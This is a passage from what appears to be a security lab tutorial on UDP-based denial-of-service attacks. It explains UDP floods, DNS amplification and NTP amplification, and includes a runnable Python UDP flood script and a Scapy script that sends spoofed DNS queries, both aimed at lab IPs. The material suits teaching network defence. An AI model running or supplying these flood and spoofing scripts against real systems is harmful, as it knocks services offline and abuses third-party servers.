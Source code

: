 ## 2. UDP-Based Attacks
UDP (User Datagram Protocol) is connectionless, sending packets without handshakes, making it ideal for high-volume, low-effort floods. UDP-based DDoS attacks aim to saturate bandwidth or overload services.

### Common UDP-Based Attack Methods
#### a. **UDP Flood**
- **How It Works**: Sends a massive volume of UDP packets to random or specific ports on the target, overwhelming its network stack or bandwidth.
- **Target**: Network interfaces, firewalls, or services listening on UDP ports (e.g., DNS, NTP).
- **Impact**: Consumes bandwidth and processing power, causing latency or crashes.
- **Example Code**: Python-based UDP flood (from previous lesson).
  ```python
  import socket
  import random
  target_ip = "192.168.56.101"  # Target VM IP
  target_port = 80
  sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
  bytes = random._urandom(1490)
  while True:
      sock.sendto(bytes, (target_ip, target_port))
      print(f"Sent UDP packet to {target_ip}:{target_port}")
  ```
- **Lab Demo**:
  1. Run the script on Kali.
  2. On the target, use `tcpdump udp` to observe packet flood.
- **Difference**: UDP floods are simpler than TCP attacks, requiring no handshake, but they focus on raw bandwidth exhaustion.

#### b. **DNS Amplification**
- **How It Works**: Sends small DNS queries with a spoofed source IP (the target’s IP) to open DNS servers, which respond with large replies, flooding the target.
- **Target**: Any system with a spoofable IP.
- **Impact**: Amplifies traffic (e.g., 50-byte query generates 500-byte response), overwhelming bandwidth.
- **Example Code**: Scapy-based DNS amplification (from previous lesson).
  ```python
  from scapy.all import *
  target_ip = "192.168.56.101"
  dns_server = "192.168.56.102"
  packet = IP(src=target_ip, dst=dns_server)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="example.com", qtype="ANY"))
  send(packet, loop=1, verbose=0)
  ```
- **Difference**: Unlike basic UDP floods, amplification attacks leverage third-party servers to multiply traffic.

#### c. **NTP Amplification**
- **How It Works**: Similar to DNS amplification but exploits NTP servers’ `monlist` command, which returns large responses for small queries.
- **Target**: Systems with spoofed IPs.
- **Impact**: High amplification factor (up to 500x), saturating bandwidth.
- **Example Tool**: `hping3` or custom Scapy scripts.
- **Difference**: Targets specific NTP vulnerabilities, unlike generic UDP floods.
